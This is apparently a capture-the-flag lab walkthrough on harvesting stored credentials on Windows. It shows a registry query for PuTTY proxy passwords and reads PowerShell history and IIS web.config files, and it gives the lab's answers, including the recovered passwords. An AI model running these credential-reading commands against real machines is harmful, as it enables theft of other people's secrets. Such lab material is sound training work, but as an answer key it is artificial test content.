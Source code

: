 Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

```
Windows PowerShell                                                                                                      Copyright (C) Microsoft Corporation. All rights reserved.                                                                                                                                                                                       PS C:\Users\thm-unpriv> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt                                                                                                                   ls                                                                                                                      whoami                                                                                                                  whoami /priv                                                                                                            whoami /group                                                                                                           whoami /groups                                                                                                          cmdkey /?                                                                                                               cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z                                                          cmdkey /list                                                                                                            cmdkey /delete:thmdc.local                                                                                              cmdkey /list                                                                                                            runas /?                                                                                                                type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt                   PS C:\Users\thm-unpriv>  
```
A password for the julia.jones user has been left on the Powershell history. What is the password?
*ZuperCkretPa5z *

```
PS C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString                                                                                                                                       <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />                                                                                            <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />                                                                                                               <connectionStrings>                                                                                                         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />                                                                                                                    </connectionStrings>                                                                                                PS C:\Users\thm-unpriv>  
```
A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?
*098n0x35skjD3*